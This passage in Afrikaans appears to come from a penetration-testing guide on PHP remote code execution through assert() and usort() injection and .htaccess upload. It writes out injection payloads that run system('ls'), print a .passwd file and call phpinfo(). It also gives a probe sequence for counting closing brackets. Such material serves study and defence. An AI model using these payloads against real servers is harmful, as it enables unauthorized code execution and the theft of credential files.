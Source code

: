 Hierdie funksie binne php laat jou toe om **kode wat in 'n string geskryf is uit te voer** ten einde **waar of vals te retourneer** (en afhangende hiervan die uitvoering te verander). Gewoonlik sal die gebruikersvariabele in die middel van 'n string ingevoeg word. Byvoorbeeld:\
`assert("strpos($_GET['page']),'..') === false")` --> In hierdie geval om **RCE** te verkry kan jy doen:
```
?page=a','NeVeR') === false and system('ls') and strpos('a
```
U sal die **kode** **sintaksis** **moet breek**, **jou** **payload** **byvoeg** en dan **dit weer regmaak**. U kan **logiese operasies** soos "**and" of "%26%26" of "|"** gebruik. Let daarop dat "or", "||" nie werk nie omdat as die eerste voorwaarde waar is, ons payload nie uitgevoer sal word nie. Dieselfde geld; ";" werk nie omdat ons payload nie uitgevoer sal word nie.

**Ander opsie** is om die uitvoering van die opdrag aan die string toe te voeg: `'.highlight_file('.passwd').'`

**Ander opsie** (as u die interne kode het) is om 'n paar veranderlikes te wysig om die uitvoering te verander: `$file = "hola"`

### **RCE via usort()**

Hierdie funksie word gebruik om 'n reeks items te sorteer met behulp van 'n spesifieke funksie.\
Om hierdie funksie te misbruik:
```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
usort();}phpinfo;#, "cmp");
}?>
```
U kan ook **//** gebruik om die res van die kode te kommentaar.

Om die aantal hakies wat u moet sluit te ontdek:

- `?order=id;}//`: ons kry 'n foutboodskap (`Parse error: syntax error, unexpected ';'`). Ons mis waarskynlik een of meer hakies.
- `?order=id);}//`: ons kry 'n **waarskuwing**. Dit lyk reg.
- `?order=id));}//`: ons kry 'n foutboodskap (`Parse error: syntax error, unexpected ')' i`). Ons het waarskynlik te veel sluitende hakies.

### **RCE via .httaccess**

As u 'n **.htaccess** kan **oplaai**, kan u verskeie dinge **konfigureer** en selfs kode uitvoer (om te konfigureer dat lêers met die uitbreiding .htaccess kan **uitgevoer** word).
